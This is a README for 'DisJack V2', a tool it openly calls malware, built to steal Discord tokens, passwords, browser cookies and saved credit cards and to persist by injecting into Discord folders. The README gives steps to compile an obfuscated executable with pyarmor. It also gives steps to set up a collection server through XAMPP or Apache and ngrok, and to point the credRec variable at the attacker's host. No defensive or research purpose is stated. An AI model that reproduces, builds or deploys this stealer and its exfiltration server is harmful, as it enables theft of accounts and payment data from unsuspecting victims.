 # DisJack V2
Malware for Discord, designed to steal passwords, tokens, and inject discord folders for long-term use. 

## What does this do?
This virus has the ability to steal Discord Tokens, Passwords, Browser Credit Cards, Browser Cookies, and other information.

This **IS** being updated so more will be added soon.

### What is the server for?
The server is for catching credit card details and passwords


## How to compile
```bash
python3 -m pip install pyinstaller
pyarmor pack main.py --output DisJack.exe
```
### Server Setup

#### Windows
1. Download XAMPP from [here](https://www.apachefriends.org/xampp-files/7.3.30/xampp-windows-x64-7.3.30-0-VC15-installer.exe)

2. Move server files into `C:\xampp\htdocs`

3. Port forward or use ngrok ([tutorial for ngrok](https://www.sitepoint.com/use-ngrok-test-local-site/))

4. Change the `credRec = ''` and put your IP/Webhost into the quotes *ex. `credRec = 'https://192.168.1.1/'`*

5. Compile and start beaming

#### Linux
1. Move all server files to html `/home/var/www/html/`
```bash
sudo apt-get updatesudo apt-get install apache2
sudo service apache2 restart
```



## Debug Output
<img src="https://transfer.sh/FYrksy/WindowsTerminal_RYcy9mjnS6.png">

